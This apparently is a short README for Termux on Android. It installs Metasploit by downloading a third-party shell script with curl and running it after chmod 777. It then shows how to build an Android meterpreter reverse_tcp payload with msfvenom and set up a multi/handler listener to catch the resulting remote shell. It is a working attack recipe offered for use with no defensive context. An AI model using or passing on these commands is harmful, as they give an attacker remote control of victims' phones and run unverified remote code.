 apt update
apt upgrade
pkg install python
pkg install python2
pkg install curl
curl -LO https://raw.githubusercontent.com/shadkhan786/metasploits/master/metasploit.sh
chmod 777 metasploit.sh
./metasploit.sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=port R > /sdcard/

msfconsole


use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST ip
set LPORT port
exploit

